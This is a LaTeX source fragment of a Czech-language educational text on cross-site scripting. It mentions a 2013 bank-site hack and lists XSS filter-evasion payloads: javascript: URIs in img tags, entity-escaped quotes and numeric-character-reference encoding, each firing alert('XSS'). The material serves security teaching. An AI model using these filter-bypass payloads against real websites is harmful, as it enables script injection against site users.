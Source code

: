 \documentclass[12pt, a4paper]{report}
\begin{document}
Tato chyba byla objevena skupinou Czechurity, která má na svědomí i hacknutí webových stránek Unicredit bank v březnu 2013, které bylo médii chybně interpretováno jako DDoS\footnote{Distributed Denial of Service - útok, který zahlcuje službu pro pád nebo nedostupnost pro ostatní uživatele.}.
\begin{figure}[h!]
\includegraphics[width=390px]{./examples/xss-airbank.png}
\caption{Non-persistent XSS}
\label{obr.airbank}
\end{figure}

\subsection{Různé varianty zapsání XSS}
Výstupy na různých webových stránkách mohou být různým způsobem filtrovány, popřípadě může být přímo filtrován script tag, lze toto obejít? Odpovědí je bohužel ano, možné to je a je to velice jednoduché, zde několik příkladů (ne všechny prohlížeče toto interpretují):

\begin{lstlisting}[label=some-code, language=HTML, caption=Schování JavaScriptu do neexistujícího obrázku]
<img src="javascript:alert('XSS');">
\end{lstlisting}

\begin{lstlisting}[label=some-code, language=HTML, caption=Zakázané uvozovky? Nahrazení entitami \ldots]
<img src=javascript:alert(\&quot;XSS\&quot;)>
\end{lstlisting}

\begin{lstlisting}[label=some-code, language=HTML, caption=Další možností je převedení na unikód]
<img src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;
&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
\end{lstlisting}
\end{document}
